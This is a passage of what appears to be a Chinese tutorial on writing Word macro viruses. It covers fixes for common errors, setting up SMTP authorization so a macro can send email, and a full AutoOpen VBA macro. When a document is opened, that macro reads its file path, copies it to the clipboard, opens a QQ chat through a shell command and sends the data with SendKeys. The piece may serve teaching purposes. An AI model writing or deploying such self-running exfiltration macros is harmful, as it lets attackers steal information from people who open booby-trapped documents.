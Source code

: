 注意事项及常见错误：  
(1) 如果在撰写宏病毒过程中，出现 “缺少: 列表分隔符或)”，我们需要进行调试及修改。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN64YH0rOavsCGafc1t4w4B64NRWibvLk6mE2IT4j6MoJcfM1pbP0zgAK6g44w861vqM1SzKYJtgAA/640?wx_fmt=png)

(2) 如果提示 “邮件无法发送到 SMTP 服务器，传输错误代码为 0x80040217。服务器响应为 not available”，则需要开启 STMP 授权。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN64YH0rOavsCGafc1t4w4BOLM5Z4o8A0hicTo0D6wBTHgEibMsMaFnnQTd6h7WgWX0r7QeGRicYZzZw/640?wx_fmt=png)

CDO 发送邮件时需要开启邮件的 stmp 授权代理，网易邮箱 163 设置方法如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN64YH0rOavsCGafc1t4w4BIEAS7yZ74FTswErgib1mobMTNZITMdGG2rBoHdOAaNUEQ9PlXerPwxA/640?wx_fmt=png)

如果腾讯邮箱要开启 SMTP/POP3 服务，则将生成的授权码当作邮箱登陆密码来进行邮件发送，注意设置的是授权码而不是密码。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN64YH0rOavsCGafc1t4w4Bf1zvGcyc2k8AbuGVpicT6bXFK8YBFiaEW89u5NZ4pewxVHlGUXTfvKwQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN64YH0rOavsCGafc1t4w4BNEwflDEVgx3ia3DiaiaOCnLE2OwWl4xYW9XTJPyr5RdG0wsQ0IK0oZ1Kw/640?wx_fmt=png)

(3) 如果 wps 报 429 ActiveX 不能创建对象 ，则解决方法参考：

*   https://www.cnblogs.com/pyman/p/7918484.html
    

五. 案例：QQ 发送信息
=============

接着通过 QQ 发送信息来制作宏病毒，并获取对方电脑存储的具体路径。具体流程：

*   获取文件路径
    
*   将路径复制至剪贴板
    
*   发送 QQ 消息
    
*   通过 sendkeys 输入 ctrl+V 发送粘贴内容
    

注意，腾讯 WebQQ 停止运营了，且不好获取 QQ 的聊天窗口句柄，才采用了该方法。该部分主要参考师弟的代码，再次感谢。

完整宏代码如下：

```
Sub AutoOpen()    ' 获取文件路径    DocPath = ActiveDocument.Path    DocName = ActiveDocument.Name    Text1 = "DocPath:" + DocPath    Text2 = "DocName:" + DocName    Result = Text1 + Text2    MsgBox (Result)        ' 将内容送入剪贴板    With CreateObject("new:{1C3B4210-F441-11CE-B9EA-00AA006B1A69}")        .SetText Result        .PutInClipboard    End With        ' 发送QQ消息    Shell "cmd /c start tencent://Message/?Uin=QQ号码&we^v"    SendKeys "{ENTER}"    SendKeys "{ENTER}"    SendKeys "^{ENTER}"End Sub
```

运行代码如下，获取了 Word 文档的路径。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN64YH0rOavsCGafc1t4w4BgbC20vAssbdsI9KtS4YMVyhlTH9Vyt5tvbILSYUdicN3YdziaujbKkTg/640?wx_fmt=png)

此时内容复制至剪贴板，如果输入 Ctrl+V，输出内容如下：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN64YH0rOavsCGafc1t4w4BhPa5VlZAP6IKjQWvdiaxpEgFFGE1veovnw8YXpdeNBzbZRfeyIibGq1g/640?wx_fmt=png)

通过下面的命令可以直接打开某个 QQ 的窗口。
